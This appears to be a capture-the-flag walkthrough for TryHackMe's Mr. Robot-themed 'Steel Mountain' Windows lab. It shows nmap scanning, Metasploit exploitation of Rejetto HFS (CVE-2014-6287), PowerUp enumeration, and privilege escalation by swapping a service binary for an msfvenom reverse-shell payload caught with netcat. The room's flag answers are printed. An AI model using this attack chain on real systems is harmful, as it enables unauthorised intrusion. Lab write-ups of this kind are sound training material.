 # [Steel Mountain - TryHackMe](https://tryhackme.com/room/steelmountain) | Cyanyde

Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

## Credits

- Room created by [tryhackme](https://tryhackme.com/p/tryhackme)
- Room type: Premium

## Initial Access

### Scan the machine with nmap. What is the other port running a web server on?

- `nmap -sV -p- -T5 \<target ip>`
    - *-sV* flag returns service versions
    - *-p-* scans all ports
    - *-T5* increases scan timing agressiveness

```
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http               HttpFileServer httpd 2.3
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49188/tcp open  msrpc              Microsoft Windows RPC
49189/tcp open  msrpc              Microsoft Windows RPC
```

> The non-standard port running a web server is port **8080**

### Take a look at the other web server. What file server is running?

> A quick web search shows that HttpFileServer httpd 2.3 is a version of **Rejetto HTTP File Server**

### What is the CVE number to exploit this file server?

> ExploitDB listing from searching for "rejetto http file server vulnerability": https://www.exploit-db.com/exploits/39161 | CVE-**2014-6287**

### Use Metasploit to get an initial shell. What is the user flag?

- `msfconsole` to start Metasploit and `search cve-2014-6287` to find module listed on ExploitDB
- `use 0` or `use exploit/windows/http/rejetto_hfs_exec` to select exploit
- `set RHOSTS <target ip>` and `set RPORT 8080` to point the exploit at the second web server on the target machine and `exploit`

> <details><summary>When connected to the target via meterpreter shell, <code>cat C:/Users/bill/Desktop/user.txt</code> to get the flag: </summary>b04763b6fcf51fcd7c13abc7db4fd365</details>

## Privilege Escalation

- Use the [provided tool](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) to enumerate system
    - *curl* or *wget* the file to attack machine
    - Use `upload` in meterpreter shell to transfer file to target machine

### Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

- Run `PowerUp.ps1` then use the `Invoke-AllChecks` cmdlet

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

> The service that shows up is **AdvancedSystemCareService9**

### What is the root flag?

- The *PowerUp* scan results show that the service can be restarted, and the path can be edited
- Generate shellcode to replace legitimate binary
    - `msfvenom -p windows/shell_reverse_tcp LHOST=10.201.67.109 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe`
- Kill the powershell channel with *ctrl+c*
- Use <code>upload *local path to*\ASCService.exe</code> in meterpreter shell
- `shell` to drop into cmd shell
- Kill and replace existing service
    - `sc stop AdvancedSystemCareService9` to kill service
    - `copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\"` and confirm replacement of the original ASCService.exe
- Set up listener on attacker machine
    - `nc -lvnp 4443`
- Start malicious process on target machine
    - `sc start AdvancedSystemCareService9`
- Restarting the service on target machine should send a reverse shell to the port specified in the malicious ASCService.exe
- Within the reverse shell, find and print the root flag
    - `whoami` to confirm SYSTEM status
    - `dir /s root.txt` to locate the flag file
    - cd `C:\Users\Administrator\Desktop` and `type root.txt` to get the flag

> <details><summary>The root flag of this machine is </summary>9af5f314f57607c00fd09803a587db80</details>

## Access and Escalation without Metasploit

- Use [this](https://www.exploit-db.com/exploits/39161) exploit for initial access to target machine
- This [netcat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe) is also provided
- The exploit requires a web server hosting a ncat.exe binary to function properly
    - `sudo python -m http.server 80` to serve all files in current directory as an http server on port 80


